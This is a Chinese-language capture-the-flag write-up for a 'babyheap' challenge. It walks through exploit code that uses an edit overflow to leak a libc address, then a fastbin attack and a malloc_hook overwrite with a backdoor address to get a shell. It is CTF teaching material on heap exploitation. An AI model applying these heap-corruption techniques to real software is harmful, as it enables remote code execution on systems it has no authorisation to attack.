






# babyheap  
  
又是一道有后门的题  
**show**  
  
**create**  
  
**del**  
  
**edit**  
  
很明显的bug是edit那里，可以编辑0x50字节，也就是说能覆盖下面的heap。  
```
create(0,0x18,b'aaaa')
create(1,0x48,b'bbbb')
create(2,0x48,b'cccc')
create(3,0x18,b'dddd')
payload=b'f'*0x18+b'\xa1'
edit(0,payload)
delete(1)
show(0,0x30)
p.recv(0x28)
leak =u64(p.recv(8))
print(hex(leak))
```
把1处的heap大小改为0xa1，释放后使其放进unsortedbin，通过show函数得到bk和fd，泄露libc地址，使用LibcSearcher得知远程环境libc版本为2.23（没给附件，自己下载）  
下面接下来劫持malloc_hook，把后门函数放进malloc_hook就行了。  
因为给的create的数量很多，不需要节约，使用fastbin_attack，释放两个大小为0x18(实际为0x20)的heap，让新heap开到存放heap地址的地方  
```
create(1,0x48,b'nnnn')
create(6,0x48,b'tttt')
create(4,0x18,b'mmmm')
create(5,0x18,b'tttt')
create(7,0x21,b'tttt')
# pause()
delete(4)
delete(5)
delete(6)
payload=p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p64(0x404120+8)
edit(3,payload)
create(4,0x18,b'mmmm')
create(5,0x18,b'mmmm')
```
  
看到索引为5的heap确实在0x4040c0上接下来真的就是为所欲为了，可以任意地址写，把后门函数放到malloc_hook即可。  
```
payload=p64(hook)
edit(5,payload)
edit(7,b'\xdd\x16\x40\x00\x00\x00\x00')
create(8,0x50,b'nnnn')
p.interactive()
```
再次调用malloc时就能getshell。
